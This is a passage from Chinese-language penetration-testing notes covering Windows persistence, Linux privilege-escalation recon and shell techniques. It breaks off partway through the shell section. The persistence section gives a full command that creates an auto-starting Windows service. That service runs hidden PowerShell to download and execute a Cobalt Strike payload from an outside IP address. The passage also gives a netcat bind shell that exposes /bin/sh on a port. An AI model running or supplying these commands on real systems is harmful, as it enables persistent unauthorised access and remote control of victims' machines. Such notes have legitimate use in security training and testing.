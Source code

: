   ```shell
  sc [servername] create Servicename [Optionname= Optionvalues]
  # servername
  ## 可选，\\\\myserver或者\\\\192.168.0.1操作远程计算机，本机操作不用添加任何参数
  # 在option= xxx格式中，等号前不用空格，等号后需要空格
  # 简单的木马Cobalt Strike
  sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" 
  sc description Name "Just For Test" # 设置服务的描述字符串 
  sc config Name start= auto # 设置这个服务为自动启动 
  net start Name ``# 启动服务 # 重启服务器后，成功返回一个shell
  ```

  

* **修改userinit进行权限维持**

* **mshta.hta执行hta文件**

  * 可使用msf的inbuild exploit

* 

## DLL注入

## Linux提权

### 查看内核版本

```shell
# 查看发行版本
cat /etc/issue
cat /etc/*-release
# 查看内核版本
uname -a
id & uname -a
# kali自带searchsploit搜索exploitdb中的漏洞利用代码
searchsploit linux Debian 4
```

### 反弹shell

#### 正向shell

* **服务端送shell**

  1. 在kali rolling（服务端）上监听23333端口

     ```shell
     nc -lvp 23333 -e /bin/sh
     ```

     

  2. 在ubuntu18（客户端）上连接kali rolling的23333端口
